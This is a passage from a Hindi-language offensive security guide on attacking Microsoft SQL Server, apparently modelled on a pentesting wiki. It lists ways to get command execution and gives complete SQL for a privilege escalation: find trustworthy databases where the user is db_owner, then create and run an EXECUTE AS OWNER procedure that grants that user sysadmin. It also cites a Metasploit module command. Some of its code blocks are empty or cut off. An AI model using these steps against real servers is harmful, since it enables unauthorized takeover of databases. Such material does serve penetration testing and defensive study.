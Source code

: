 ```csharp
{

}
}
}
```
### RCE के अन्य तरीके

कमांड निष्पादन प्राप्त करने के अन्य तरीके भी हैं, जैसे कि [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), और [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql)।

## MSSQL Privilege Escalation

### db_owner से sysadmin तक

यदि किसी **नियमित उपयोगकर्ता** को **`db_owner`** रोल उस **admin द्वारा मालिकाना हक वाले डेटाबेस** पर (उदाहरण के लिए **`sa`**) दिया जाए और वह डेटाबेस **`trustworthy`** के रूप में कॉन्फ़िगर हो, तो वह उपयोगकर्ता इन अधिकारों का दुरुपयोग कर के **privesc** कर सकता है क्योंकि वहां बनाए गए **stored procedures** owner (**admin**) के रूप में **execute** कर सकते हैं।
```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

# If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```
आप **metasploit** module का उपयोग कर सकते हैं:
```bash
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```
या एक **PS** स्क्रिप्ट:
```bash
```